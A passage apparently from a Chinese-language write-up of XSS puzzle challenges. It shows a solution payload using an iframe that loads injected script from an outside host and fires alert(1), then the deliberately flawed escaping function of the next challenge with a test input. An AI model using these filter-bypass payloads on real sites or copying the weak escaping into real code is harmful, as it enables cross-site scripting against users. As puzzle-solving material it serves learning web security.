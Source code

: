 ```
name='youWon'
```

Output

```
![2](https://raw.githubusercontent.com/AiDaiP/images/master/xss/2.jpg)<iframe src="https://4i.am/?:XSS=0&amp;CT=text/html&amp;raw=%3Cscript%3Ename%3D'youWon'%3C%2Fscript%3E" onload="youWon &amp;&amp; alert(1)"></iframe>

```



## TI(S)M

```javascript
function escape(s) {
  function json(s) { return JSON.stringify(s).replace(/\//g, '\\/'); }
  function html(s) { return s.replace(/[<>"&]/g, function(s) {
                        return '&#' + s.charCodeAt(0) + ';'; }); }

  return (
    '<script>' +
      'var url = ' + json(s) + '; // We\'ll use this later ' +
    '</script>\n\n' +
    '  <!-- for debugging -->\n' +
    '  URL: ' + html(s) + '\n\n' +
    '<!-- then suddenly -->\n' +
    '<script>\n' +
    '  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);\n' +
    '  else new Image().src = url;\n' +
    '</script>'
  );
}
```



随便输入点东西`"\/`

```
<script>var url = "\"\\\/"; // We'll use this later </script>

  <!-- for debugging -->
  URL: &#34;\/

<!-- then suddenly -->
<script>
  if (!/^http:.*/.test(url)) console.log("Bad url: " + url);
  else new Image().src = url;
</script>
```

可以看到有很多过滤
